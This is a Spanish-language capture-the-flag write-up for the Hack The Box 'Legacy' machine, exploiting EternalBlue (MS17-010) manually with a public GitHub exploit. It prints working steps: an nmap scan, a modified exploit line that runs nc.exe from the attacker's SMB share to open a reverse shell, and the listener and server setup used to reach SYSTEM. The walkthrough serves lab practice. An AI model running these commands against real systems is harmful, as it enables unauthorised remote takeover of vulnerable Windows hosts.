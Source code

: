 
---
# 🧨 HTB - Legacy 🧨
 
**Sistema:** Windows  
**Dificultad:** Fácil  
**Vector de ataque:** MS17-010 (EternalBlue)  
**Restricciones:** Sin Metasploit

---

## 🧠 Contexto

Legacy es una de las máquinas más icónicas de Hack The Box por una razón: expone la famosísima vulnerabilidad EternalBlue, la misma que fue usada en ataques reales como WannaCry.

En este write-up te muestro cómo explotamos esta máquina **sin usar Metasploit**, usando un repositorio externo de GitHub. Nos tocó consultar mucho, pero valió cada línea de código.

---

## 🔍 Enumeración

Iniciamos con un escaneo básico:

```bash
sudo nmap -p- --open -sCV --min-rate=5000 -vvv -n -Pn <ip> -oG escaneo
````

Puertos abiertos:

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds

Clásico indicio de que puede estar corriendo SMB vulnerable.

---

## ⚡ Verificación de MS17-010

Clonamos el repo de worawit, especializado en EternalBlue sin Metasploit:

```bash
git clone https://github.com/worawit/MS17-010.git
cd MS17-010
python2 checker.py 10.10.10.4
```

Resultado clave:

Correr el escript en python Checker y ver el resultado Ok (32 bit)

```
python2 checker.py <ip>
browser: Ok (32 bit)
```

Confirmado: **Legacy es vulnerable**. Hora de preparar el ataque.

---

## 🧪 Modificación del Exploit

Vamos directo al punto. Entramos a la carpeta del exploit:

```bash
cd MS17-010
nano zzz_exploit
```

Editamos `zzz_exploit.py`. Dentro de la función `smb_pwn(conn, arch)`, comentamos todo y dejamos solo esta línea **descomentada**:

```python
service_exec(conn, r'cmd /c \\<TU_IP>\mmvg\nc.exe -e cmd <TU_IP> 444')
```

> Reemplaza `<TU_IP>` con tu IP tun0. Asegúrate de usar un puerto libre (yo usé el 444 porque 443 estaba ocupado por HTB).

---

## 🛠️ Configuración del entorno

Copiamos `nc.exe` al directorio del servidor SMB:

```bash
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe ../../content
```

Levantamos el servidor SMB:

```bash
smbserver.py mmvg $(pwd)
```

**smbserver.py** Es un script que forma parte del repositorio **Impacket**, una colección de herramientas para trabajar con protocolos de red, especialmente útiles en pentesting.
Nos ponemos en escucha:

```bash
rlwrap nc -nlvp 444
```

**rlwrap** es una herramienta súper útil para la terminal que **añade historial y autocompletado** a programas que normalmente **no lo tienen**, como por ejemplo algunos shells interactivos o binarios que ejecutas en CTFs o pentests.

---

## 🚀 Ejecución del Exploit

Volvemos a correr el exploit:

```bash
python2 zzz_exploit.py <TU_IP> browser
```

⏳ En algunos casos la reverse shell llega al toque. A mí me tocó esperar a que el script terminara por completo. Hay que tener paciencia y seguir en escucha.

---

## 🔥 Shell obtenida

Y de pronto... ¡Boom! Reverse shell con privilegios altos:

```cmd
whoami
nt authority\system
```

Capturamos las flags:

```cmd
type C:\Users\john\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧩 Problemas con Python2

Tuve errores con pip2, así que hice esto para preparar el entorno:
# Instalar setuptools compatible con Python2

```bash
wget https://files.pythonhosted.org/packages/source/s/setuptools/setuptools-44.1.1.zip
unzip setuptools-44.1.1.zip
cd setuptools-44.1.1
sudo python2 setup.py install
```

### Volver a la carpeta del exploit y correr:

```bash
pip2 install .
```

---

## 🎯 Conclusiones

- Explotar EternalBlue sin Metasploit **te obliga a entender realmente cómo funciona el payload.**
    
- Tener control sobre el shell y el servidor SMB fue clave.
    
- Esta máquina es oro puro para practicar explotación manual y reverse shells en Windows.
    

**Herramientas usadas:**

- `nmap`
    
- `python2`
    
- `zzz_exploit.py`
    
- `impacket-smbserver`
    
- `rlwrap`
    
- `nc.exe`
    

> Explota el conocimiento, no solo los servicios 😈

---

## 📎 Recursos

- [Exploit usado - worawit/MS17-010](https://github.com/worawit/MS17-010)

